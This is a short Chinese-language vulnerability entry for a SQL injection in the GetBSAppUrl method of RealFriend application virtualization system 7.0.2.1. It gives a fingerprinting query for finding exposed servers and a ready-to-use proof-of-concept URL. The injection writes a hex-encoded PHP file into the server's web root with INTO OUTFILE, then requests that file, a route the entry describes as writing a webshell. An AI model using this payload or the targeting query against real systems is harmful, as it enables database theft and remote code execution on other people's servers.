




# 瑞友 应用虚拟化系统 GetBSAppUrl SQL注入漏洞

## 漏洞描述

瑞友 应用虚拟化系统 GetBSAppUrl方法存在SQL注入漏洞，由于参数传入没有进行过滤导致存在SQL注入，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
瑞友应用虚拟化系统 7.0.2.1
```

## 网络测绘

```
"CASMain.XGI?cmd=GetDirApp" && title=="瑞友应用虚拟化系统"
```

## 漏洞复现

登陆页面



在 GetBSAppUrl 方法中存在SQL注入漏洞，通过漏洞可以写入Webshell文件



验证POC

```
/index.php?s=/Agent/GetBSAppUrl/AppID/')%3bselect+0x3c3f70687020706870696e666f28293b3f3e+into+outfile+%27C%3a\\Program+Files+(x86)\\RealFriend\\Rap+Server\\WebRoot\\test7.php%27%23/123
```



```
/test7.php
```

